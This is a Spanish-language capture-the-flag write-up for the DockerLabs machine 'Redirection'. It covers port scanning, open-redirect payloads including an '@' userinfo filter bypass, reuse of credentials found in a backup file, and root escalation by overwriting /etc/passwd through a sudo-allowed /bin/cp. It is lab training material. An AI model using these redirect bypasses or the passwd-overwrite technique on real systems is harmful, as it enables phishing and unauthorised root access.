








# 🧠 Informe de Pentesting – Máquina: Redirection

## 💡 Dificultad: Fácil

## 🧩 Plataforma: DockerLabs


---

# ⚙️ Despliegue de la máquina

Antes de comenzar las fases de reconocimiento y explotación, se despliega el laboratorio vulnerable proporcionado por DockerLabs.

La máquina se distribuye en formato comprimido `.zip`, incluyendo la imagen Docker necesaria y un script automatizado para simplificar la creación del entorno.

```bash
unzip redirection.zip
sudo bash auto_deploy.sh redirection.tar
```

## Explicación de comandos

* **unzip redirection.zip** → Extrae los archivos necesarios del laboratorio.
* **auto_deploy.sh** → Script encargado de automatizar la importación y ejecución del contenedor.
* **redirection.tar** → Imagen Docker utilizada para desplegar la máquina vulnerable.

Tras finalizar el proceso, la máquina vulnerable queda disponible dentro de la red Docker local.


---

# 📡 Verificación de conectividad

Antes de iniciar el reconocimiento se valida la disponibilidad del objetivo.

```bash
ping -c 4 172.17.0.2
```

## Explicación

* **ping** → Envía paquetes ICMP Echo Request.
* **-c 4** → Limita el envío a cuatro paquetes.

La respuesta positiva confirma:

* Disponibilidad del objetivo
* Conectividad entre atacante y víctima
* Correcto funcionamiento de la red Docker


---

# 🔍 Reconocimiento – Enumeración de puertos

Se realiza un escaneo completo de puertos TCP para identificar la superficie expuesta.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

## Explicación de parámetros

* **-p-** → Escanea los 65535 puertos TCP.
* **--open** → Muestra únicamente puertos abiertos.
* **-sS** → SYN Scan.
* **--min-rate 5000** → Incrementa velocidad de envío.
* **-vvv** → Verbosidad elevada.
* **-n** → Evita resolución DNS.
* **-Pn** → Omite host discovery.

## Resultados

Se identifican únicamente dos servicios expuestos:

* **22/tcp → SSH**
* **80/tcp → HTTP**

La reducida superficie de ataque indica que el vector principal probablemente reside en la aplicación web.

---

# 🔬 Enumeración de servicios

Se profundiza sobre los servicios detectados:

```bash
nmap -sCV -p22,80 172.17.0.2
```

## Explicación

* **-sC** → Ejecuta scripts NSE básicos.
* **-sV** → Identifica versiones.
* **-p22,80** → Limita el análisis.

La enumeración confirma:

* Servicio SSH activo
* Aplicación web funcional
* Posibles mecanismos de autenticación


---

# 🌐 Enumeración Web

Accedemos al servicio HTTP:

```text
http://172.17.0.2
```

La aplicación presenta tres laboratorios enfocados en vulnerabilidades de redirección.

---

# Laboratorio 1 – Open Redirect Básico

Durante el análisis del código fuente se identifica:

```html
<a href="redirect.php?url=http://google.com">
```

Esto revela que:

* Existe un script llamado `redirect.php`
* Recibe un parámetro GET llamado `url`
* El parámetro probablemente es utilizado directamente para construir redirecciones

Un código vulnerable podría verse así:

```php
header("Location: " . $_GET['url']);
```

Esto provoca una vulnerabilidad **Open Redirect**, permitiendo enviar usuarios hacia cualquier dominio arbitrario.

Se modifica la URL:

```text
http://172.17.0.2/laboratorio1/redirect.php?url=https://github.com/Alejandro609x
```

La aplicación acepta el nuevo dominio y redirige correctamente.

Esto demuestra falta de validación sobre dominios permitidos.








---

# Laboratorio 2 – Bypass de validación usando @

En este laboratorio existe un filtro adicional que intenta impedir redirecciones externas.

La URL original:

```text
https://google.com
```

Es reemplazada por:

```text
http://172.17.0.2/laboratorio2/redirect.php?url=https://google.com@github.com/Alejandro609x
```

## ¿Por qué funciona?

El símbolo `@` en URLs tiene significado especial:

```text
protocolo://usuario@host
```

Por ejemplo:

```text
https://google.com@github.com
```

Se interpreta como:

* Usuario: `google.com`
* Host real: `github.com`

Muchos filtros vulnerables únicamente verifican si la cadena contiene `google.com`, pero el navegador realmente navega hacia el dominio ubicado **después del @**.

Este bypass explota:

* Validaciones basadas en cadenas
* Filtros insuficientes
* Falta de parsing seguro de URLs




---

# Laboratorio 3 – Restricción por dominio permitido

En este escenario existe una validación más restrictiva.

La aplicación únicamente permite dominios específicos o relacionados.

Aquí el bypass consiste en utilizar dominios permitidos o subdominios válidos para forzar redirecciones autorizadas.

El objetivo ya no es redirigir a cualquier dominio, sino aprovechar la lógica permisiva implementada.






---

# 🔑 Obtención de credenciales

Tras completar los laboratorios se obtienen credenciales válidas para el sistema.

Durante la exploración del sistema se encuentra:

```bash
cat /secret.bak
```

El archivo contiene:

```text
balulito:balulerochingon
```

Se utilizan las credenciales:

```bash
su balulito
```

Confirmando acceso como usuario limitado.

---

# 🚀 Escalada de Privilegios

## Enumeración de privilegios sudo

Se enumeran permisos disponibles:

```bash
sudo -l
```

La salida revela:

```text
(ALL) NOPASSWD: /bin/cp
```

Esto significa que el usuario puede ejecutar `/bin/cp` como root sin contraseña.

Esta configuración representa una mala práctica crítica.

---

## Análisis del vector de ataque

Se revisa la estructura de cuentas:

```bash
cat /etc/passwd
```

Entrada original:

```text
root:x:0:0:root:/root:/bin/bash
```

La `x` indica que la contraseña real se almacena en:

```text
/etc/shadow
```

La estrategia consiste en modificar la entrada root eliminando la referencia a la contraseña.

---

## Preparación del archivo manipulado

Se crea una copia editable:

```bash
cp /etc/passwd /tmp/passwd
nano /tmp/passwd
```

Se modifica:

Antes:

```text
root:x:0:0:root:/root:/bin/bash
```

Después:

```text
root::0:0:root:/root:/bin/bash
```

Eliminar la `x` provoca que root quede configurado sin contraseña.

---

## Sobrescritura usando sudo mal configurado

Aprovechando permisos sobre `/bin/cp`:

```bash
sudo -u root /bin/cp /tmp/passwd /etc/passwd
```

Esto reemplaza el archivo legítimo por la versión manipulada.

---

## Obtención de root

Finalmente:

```bash
su root
```

Y verificamos:

```bash
whoami
```

Salida:

```text
root
```

La escalada de privilegios se completa exitosamente.





---
